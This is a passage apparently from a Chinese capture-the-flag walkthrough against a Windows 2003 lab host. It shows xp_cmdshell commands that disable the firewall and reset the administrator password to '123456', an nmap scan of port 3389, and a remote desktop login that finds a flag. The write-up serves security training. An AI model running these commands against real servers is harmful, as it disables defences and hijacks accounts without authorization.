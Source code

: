 ```sql
EXEC xp_cmdshell 'netsh firewall set opmod disable';
-- 查看防火墙状态
EXEC xp_cmdshell 'netsh firewall show state';
```

![image.png500](https://img.ghostliner.top/ucVAIa.png)

nmap 测试 3389 端口状态

```shell
nmap -p 3389 192.168.163.128
```

![image.png500](https://img.ghostliner.top/XHaccT.png)

修改管理员密码

```sql
EXEC xp_cmdshell 'net user administrator 123456';
```

远程桌面连接到 win2003

![image.png500](https://img.ghostliner.top/WZtiJp.png)

桌面发现 key3

![image.png500](https://img.ghostliner.top/2mNrDz.png)
